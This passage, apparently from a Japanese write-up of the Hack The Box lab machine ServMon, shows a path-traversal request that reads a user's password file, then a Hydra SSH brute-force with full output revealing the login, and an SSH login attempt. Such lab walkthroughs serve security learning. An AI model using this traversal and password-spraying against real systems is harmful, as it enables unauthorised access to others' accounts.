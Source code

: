 ```
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

ディレクトリへのアクセス方法が分かったので、さきほどのpasswords.txtファイルがある場所にアクセスしてみましょう。　　
http\://10.10.10.184/../../../../../../../../../../../../users/Nathan/Desktop/Passwords.  txtにアクセスしたいのですがブラウザからはアクセスしても何も見ることができなかったため、Burp Suiteを使用して通信を改ざんします。

![f.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/6590bc70-c0a9-c49f-70fd-73c9c65c1ef4.png)
![g.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/431a70d4-e4a8-8279-a35e-8620b0a13b1c.png)

これをすべてコピーしてパスワードファイルを作成します。  

```
kali@kali:~/htb/ServMon$ cat passwords.txt 
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
あとはhydraを使って、ヒットするパスワードがないか確かめてみましょう。

```
hydra -l Nadine -P passwords.txt ssh://10.10.10.184
```

```
kali@kali:~/htb/ServMon$ hydra -l Nadine -P passwords.txt ssh://10.10.10.184
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-26 05:21:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-26 05:22:12
```

これでパスワードが見つかりました。  
ユーザ名:Nadine  
パスワード:L1k3B1gBut7s@W0rk  
あとはsshでログインしてみましょう。   

```
kali@kali:~$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
```
